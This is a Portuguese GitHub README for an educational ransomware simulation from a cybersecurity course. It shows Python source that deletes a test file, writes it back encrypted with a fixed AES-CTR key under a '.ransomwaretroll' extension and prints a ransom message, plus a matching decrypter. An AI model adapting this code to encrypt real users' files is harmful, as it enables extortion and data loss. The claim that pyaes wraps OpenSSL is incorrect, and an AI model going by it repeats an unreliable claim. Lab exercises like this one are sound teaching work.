

<div align="center">

# 🔒 Simulação de Ransomware em Python - DIO Formação Cybersecurity Specialist 🛡️

[!\[Python](https://img.shields.io/badge/Python-3.x-3776AB?style=for-the-badge\&logo=python\&logoColor=yellow)](https://www.python.org/)
[!\[Kali Linux](https://img.shields.io/badge/Kali\_Linux-%2300A300?style=for-the-badge\&logo=kali-linux\&logoColor=white)](https://www.kali.org/)
[!\[Cybersecurity](https://img.shields.io/badge/Cybersecurity-DIO-red?style=for-the-badge\&logo=)](https://www.dio.me/)

</div>

## 📋 **Descrição do Projeto**

Este projeto simula o funcionamento básico de um **ransomware** usando **Python** e a biblioteca `pyaes` para criptografia **AES-CTR**. O objetivo educacional é entender como ransomwares criptografam arquivos e como revertê-los com uma chave conhecida.

> ⚠️ \*\*ATENÇÃO\*\*: Use \*\*APENAS\*\* em ambiente controlado e isolado (máquinas virtuais) para fins \*\*didáticos\*\*. \*\*NUNCA\*\* execute em sistemas reais!


\---

## 🛠️ **Tecnologias Utilizadas**



**Instalação da dependência:**

```bash
pip install pyaes
```

\---

## 📁 **Estrutura do Projeto**

```text
simulacao-ransomware-kali-python/
├── 🔐 encrypter.py
├── 🔓 decrypter.py
├── 📄 README.md


🚀 **Como Funciona**

### 1️⃣ **Criptografia** (`encrypter.py`)

* Lê `teste.txt`
* Criptografa com **AES-CTR** (chave: `b"testeransomwares"`)
* Remove original
* Salva como `teste.txt.ransomwaretroll`

### 2️⃣ **Descriptografia** (`decrypter.py`)

* Lê arquivo criptografado
* Descriptografa com mesma chave
* Remove criptografado
* Restaura `teste.txt`

**📝 Decisões Técnicas:**

* Chave fixa (demo apenas)
* **CTR mode**: sem padding necessário
* 1 arquivo por execução


### **🔐 encrypter.py**

```python
import os
import pyaes

# Abrir arquivo a ser criptografado
file\_name = 'teste.txt'
file = open(file\_name, 'rb')
file\_data = file.read()
file.close()

# Remover o arquivo original
os.remove(file\_name)

# Definir a chave de encriptação
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Criptografar o arquivo
crypto\_data = aes.encrypt(file\_data)

# Salvar o arquivo criptografado
new\_file = file\_name + '.ransomwaretroll'
with open(new\_file, 'wb') as f:
    f.write(crypto\_data)

print("💰 Arquivo criptografado! Pague o resgate ou use decrypter.py 🤑")
```

### **🔓 decrypter.py**

```python
import os
import pyaes

## abrir arquivo criptografado
file\_name = 'teste.txt.ransomwaretroll'
file = open(file\_name, 'rb')
file\_data = file.read()
file.close()

## chave de descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt\_data = aes.decrypt(file\_data)

## remove o arquivo criptografado
os.remove(file\_name)

## criar um novo arquivo descriptografado
new\_file = 'teste.txt'
new\_file = open(f'{new\_file}', 'wb')
new\_file.write(decrypt\_data)
new\_file.close()

## mensagem de descriptografia
print("✅ Arquivo descriptografado com sucesso! 🚀")
```

\---

## 🎯 **Como Executar**

```bash
# 1. Crie teste.txt
echo "Este arquivo esta legivel e descriptografado" > teste.txt

# 2. Mostrar arquivos na pasta  
ls

# 3. Criptografar
python encrypter.py

# 4. Verificar (arquivo .ransomwaretroll)
ls
nano teste.txt.ransomwaretroll

# 5. Descriptografar
python decrypter.py

# 6. Mostrar novamente arquivos da pasta  
ls

# 5. Verificar (teste.txt restaurado!)
nano teste.txt
```

✅ **Testado em**: Kali Linux


## 🧠 **Aprendizado \& Próximos Passos**

### **✅ O que aprendi:**

* **AES-CTR**: Modo stream cipher (nonce implícito)
* **pyaes**: Wrapper simples para OpenSSL
* **File I/O**: Manipulação segura com `with`

\---

</div>

## ⚖️ **Aviso Legal**

**🎓 Simulação 100% educacional.**  
Ransomwares reais são **crimes** (Lei 14.155/2021 - Brasil).

\---

*Desenvolvido durante DIO Formação Cybersecurity Specialist • Novembro 2026 🇧🇷*

